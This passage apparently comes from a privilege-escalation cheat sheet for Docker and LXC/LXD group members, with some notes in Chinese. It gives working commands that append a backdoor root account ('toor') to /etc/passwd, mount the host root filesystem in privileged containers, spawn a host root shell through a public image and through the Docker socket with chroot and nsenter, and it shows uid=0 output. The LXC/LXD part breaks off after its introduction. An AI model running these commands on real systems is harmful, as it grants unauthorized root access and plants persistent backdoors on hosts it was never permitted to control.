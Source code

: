 ----

#### Groups

* 环境 - Docker

Mount the filesystem in a bash container, allowing you to edit the `/etc/passwd` as root, then add a backdoor account `toor:password`.

```shell
$> docker run -it --rm -v $PWD:/mnt bash
$> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

Almost similar but you will also see all processes running on the host and be connected to the same NICs.

```shell
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

Or use the following docker image from [chrisfosterelli](https://hub.docker.com/r/chrisfosterelli/rootplease/) to spawn a root shell

```shell
$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell

sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
```

More docker privilege escalation using the Docker Socket.

```shell
sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

* 环境 - LXC/LXD

The privesc requires to run a container with elevated privileges and mount the host filesystem inside.

这个提权方法要求运行一个已经提权过的容器 把需要提权的主机文件系统挂载到其中

